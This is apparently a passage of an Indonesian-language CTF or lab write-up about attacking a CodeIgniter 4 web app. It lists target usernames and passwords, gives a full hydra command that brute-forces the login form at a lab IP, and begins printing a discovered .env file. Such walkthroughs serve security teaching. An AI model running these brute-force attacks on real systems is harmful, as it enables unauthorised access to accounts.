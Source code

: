 ### 2.5. Finding the Secrets

* Diketahui bahwa aplikasi yang berjalan di port **8080** dan dibuat menggunakan **CodeIgniter 4** (PHP-based web framework).
* Ketika dibuka, muncul halaman login. Langsung saja saya coba brute force login http-form menggunakan informasi user dan password yang sudah diperoleh sebelumnya menggunakan tool: `hydra` dengan provide list user dan password yang telah diketahui sebelumnya.

{% tabs %}
{% tab title="users.txt" %}
```
ayyub
donghyuk_kim
yeji_hwang
azkira_kim
bryan_jung
nurul_lee
yuna_shin
hanbin_kim
jay_payakumbuah
```
{% endtab %}

{% tab title="pass.txt" %}
```
P@ssw0rd
T4da1mA!
Lzj*7BL%#fMhq
```
{% endtab %}
{% endtabs %}

* Berikut adalah full command hydra untuk bruteforce http form loginnya (bisa juga pakai NSE `http-form-brute` dari `nmap`).

```bash
hydra -L users.txt -P pass.txt -s 8080 10.1.2.232 http-post-form "/authenticate:username=^USER^&password=^PASS^:login_failed"
# You can check the path and login parameter by intercepting the traffic via burp suite.
```

* Terdapat beberapa file yang menarik perhatian saya, yaitu file `yourspace/.env` dan `yourspace/public/info.asp`.

{% tabs %}
{% tab title=".env" %}
```php
#--------------------------------------------------------------------
# Example Environment Configuration file
#
# This file can be used as a starting point for your own
# custom .env files, and contains most of the possible settings
# available in a default install.
#
# By default, all of the settings are commented out. If you want
# to override the setting, you must un-comment it by removing the '#'
# at the beginning of the line.
#--------------------------------------------------------------------

#--------------------------------------------------------------------
# ENVIRONMENT
#--------------------------------------------------------------------

CI_ENVIRONMENT = development

#--------------------------------------------------------------------
# APP
```